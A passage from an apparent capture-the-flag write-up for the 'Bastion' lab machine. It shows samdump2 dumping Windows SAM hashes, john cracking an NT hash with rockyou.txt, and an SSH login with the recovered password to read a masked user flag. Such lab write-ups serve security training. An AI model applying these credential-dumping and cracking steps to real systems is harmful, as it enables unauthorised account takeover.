 Using the `samdump2` command, we were able to extract the account hashes.
{% highlight bash %}
$ samdump2 SYSTEM SAM -o hash.txt
$ cat hash.txt
\*disabled\* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
\*disabled\* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
{% endhighlight %}

Following up, we used `john` to cracked the NT hashes in `hash.txt` along with the `rockyou.txt` password list.
{% highlight bash %}
$ john --format=nt hash.txt -wordlist:/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 AVX 4x3])
Remaining 1 password hash
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
bureaulampje     (L4mpje)
1g 0:00:00:01 DONE (2019-08-17 07:47) 0.5434g/s 5106Kp/s 5106Kc/s 5106KC/s buresres..burdy1
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

# user.txt

Bingo, we got it ! With the password `bureaulampje`, we will now attempt to login via `ssh` using `L4mpje`'s credentials. The `user.txt` resided on his Desktop.
{% highlight bash %}
$ ssh L4mpje@bastion.htb
L4mpje@bastion.htb's password: 

Microsoft Windows [Version 10.0.14393]                                           
(c) 2016 Microsoft Corporation. All rights reserved.   

l4mpje@BASTION C:\Users\L4mpje>cd Desktop                                        

l4mpje@BASTION C:\Users\L4mpje\Desktop>dir                                       
 Volume in drive C has no label.                                                 
 Volume Serial Number is 0CB3-C487                                               

 Directory of C:\Users\L4mpje\Desktop                                            

22-02-2019  16:27    <DIR>          .                                            
22-02-2019  16:27    <DIR>          ..                                           
23-02-2019  10:07                32 user.txt                                     
               1 File(s)             32 bytes                                    
               2 Dir(s)  11.381.809.152 bytes free

l4mpje@BASTION C:\Users\L4mpje\Desktop>more user.txt                             
9bfeXXXXXXXXXXXXXXXXXXXXXXXXXXXX

{% endhighlight %}
